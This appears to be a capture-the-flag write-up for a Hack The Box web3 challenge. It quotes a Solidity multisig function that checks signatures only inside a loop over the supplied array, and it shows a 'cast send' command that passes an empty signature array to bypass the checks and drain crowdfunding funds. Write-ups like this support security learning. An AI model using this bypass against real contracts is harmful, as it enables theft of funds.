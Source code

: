 #HTB Business 2023 : Funds_Secured (Web3)
***
### Details :
First of all, the contract relays on a function to ensure multisignature from 6 members of a list.
***
### Goal :
Our goal is to trick the following function in order to steal funds from the crowdfunding campaign :

```solidity
function closeCampaign(bytes[] memory signatures, address to, address payable crowdfundingContract) public {
        address[] memory voters = new address[](6);
        bytes32 data = keccak256(abi.encode(to));

        for (uint256 i = 0; i < signatures.length; i++) {
            // Get signer address
            address signer = data.toEthSignedMessageHash().recover(signatures[i]);

            // Ensure that signer is part of Council and has not already signed
            require(signer != address(0), "Invalid signature");
            require(_contains(councilMembers, signer), "Not council member");
            require(!_contains(voters, signer), "Duplicate signature");

            // Keep track of addresses that have already signed
            voters[i] = signer;
            // 6 signatures are enough to proceed with `closeCampaign` execution
            if (i > 5) {
                break;
            }
        }

        Crowdfunding(crowdfundingContract).closeCampaign(to);
    }
```
***
### Exploit !
After struggle, i finally found the function only do the different checks into a for loop that takes the size of the array as input.

What if ```i``` was never > 0 ?

```bash
klm@KLM:~$ cast send $WAL "closeCampaign(bytes[],address,address)" [] 0xA5c40B401B57b2aa11C8D17cbfeb343A65c63d69 $CROWD --rpc-url=$RPC --private-key=$PK
```

Enjoy ! ```HTB{XXXXXXXXXXXXX}```